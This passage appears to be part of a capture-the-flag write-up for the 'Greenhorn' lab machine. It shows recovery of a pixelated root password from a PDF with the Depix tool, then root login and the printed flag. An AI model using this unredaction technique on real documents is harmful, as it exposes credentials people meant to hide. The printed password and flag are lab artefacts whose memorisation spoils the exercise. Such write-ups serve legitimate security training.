

Seems like we have a blurred password in the file? Let's see if we can decrypt it somehow?

Checking with exfiltool seems like there are no traces of the used password?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Greenhorn]
└─# exiftool using_openvas.pdf 
ExifTool Version Number         : 12.76
File Name                       : using_openvas.pdf
Directory                       : .
File Size                       : 61 kB
File Modification Date/Time     : 2024:07:28 14:55:51+02:00
File Access Date/Time           : 2024:07:28 14:59:42+02:00
File Inode Change Date/Time     : 2024:07:28 14:59:35+02:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Language                        : en
Tagged PDF                      : Yes
```

Now upon a manua inspection seems like this is a picture so i used this site to export the image from the pdf:

https://tools.pdf24.org/en/extract-images#s=1722171996365

With the image now we can look around how to unblur it? And again seems like the techique used seems called "pixelating" and I remeber many years ago reading about a tool by that could do the trick?

https://github.com/BishopFox/unredacter

&nbsp;But the tool is failing with the default credentials so looking around I found our these 2:

```
https://github.com/JonasSchatz/DepixHMM

https://github.com/spipm/Depix
```

Seems like the second might be a good point as it is the one that is ready to be used?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Depix]
└─# python3 depix.py -p ../Greenhorn/0.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ../Greenhorn/output.png
2024-07-28 15:32:37,423 - Loading pixelated image from ../Greenhorn/0.png
2024-07-28 15:32:37,436 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-07-28 15:32:37,944 - Finding color rectangles from pixelated space
2024-07-28 15:32:37,945 - Found 252 same color rectangles
2024-07-28 15:32:37,945 - 190 rectangles left after moot filter
2024-07-28 15:32:37,945 - Found 1 different rectangle sizes
2024-07-28 15:32:37,945 - Finding matches in search image
2024-07-28 15:32:37,945 - Scanning 190 blocks with size (5, 5)
2024-07-28 15:32:37,972 - Scanning in searchImage: 0/1674
2024-07-28 15:33:20,325 - Removing blocks with no matches
2024-07-28 15:33:20,326 - Splitting single matches and multiple matches
2024-07-28 15:33:20,330 - [16 straight matches | 174 multiple matches]
2024-07-28 15:33:20,330 - Trying geometrical matches on single-match squares
2024-07-28 15:33:20,638 - [29 straight matches | 161 multiple matches]
2024-07-28 15:33:20,638 - Trying another pass on geometrical matches
2024-07-28 15:33:20,895 - [41 straight matches | 149 multiple matches]
2024-07-28 15:33:20,895 - Writing single match results to output
2024-07-28 15:33:20,895 - Writing average results for multiple matches to output
2024-07-28 15:33:23,490 - Saving output image to: ../Greenhorn/output.png
```

And now we have a password?


And guessing that this will be without the spaces then it should be this one?

```
sidefromsidetheothersidesidefromsidetheotherside
```

Indeed it is and now we can login as root and grab the last flag:

```
junior@greenhorn:~$ su root
Password: 
root@greenhorn:/home/junior# sudo -l
Matching Defaults entries for root on greenhorn:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User root may run the following commands on greenhorn:
    (ALL : ALL) ALL
root@greenhorn:/home/junior#
```

```
root@greenhorn:~# cat root.txt 
e3be733619cdea48634d8d1b596d903d
root@greenhorn:~#
```

&nbsp;

&nbsp;

&nbsp;

&nbsp;